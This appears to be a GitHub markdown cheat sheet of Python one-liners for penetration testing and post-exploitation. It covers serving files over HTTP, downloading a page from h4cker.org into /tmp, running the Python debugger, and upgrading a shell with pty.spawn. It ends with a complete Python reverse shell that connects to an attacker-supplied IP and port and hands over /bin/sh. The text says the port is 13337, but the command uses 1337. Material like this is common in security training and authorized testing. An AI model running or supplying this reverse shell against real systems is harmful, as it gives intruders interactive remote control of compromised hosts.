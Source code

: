 # Cool Python Tricks

## Starting a quick web server to serve some files (useful for post exploitation)

### In Python 2.x
```
python -m SimpleHTTPServer 1337
```

### In Python 3.x
```
python3 -m http.server 1337
```

----
## Pythonic Web Client

### In Python 2.x
```
python -c 'import urllib2; print urllib2.urlopen("http://h4cker.org/web").read()' | tee /tmp/file.html
```

### In Python 3.x
```
python3 -c 'import urllib.request; urllib.request.urlretrieve ("http://h4cker.org/web","/tmp/h4cker.html")'
```

----
## Python Debugger
This imports a Python file and runs the debugger automatically. This is useful for debugging Python-based malware and for post-exploitation.

```
python -m pdb <some_python_file>
```

Refer to this [Python Debugger cheatsheet](https://kapeli.com/cheat_sheets/Python_Debugger.docset/Contents/Resources/Documents/index) if you are not familiar with the Python Debugger.

----

## Shell to Terminal
This is useful after exploitation and getting a shell. It allows you to use Linux commands that require a terminal session (e.g., su, sudo, vi, etc.)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

----

## Using Python to do a Reverse Shell

You put your IP address (instead of 192.168.78.205) and the port (instead of 13337) below:

```
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.78.205",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

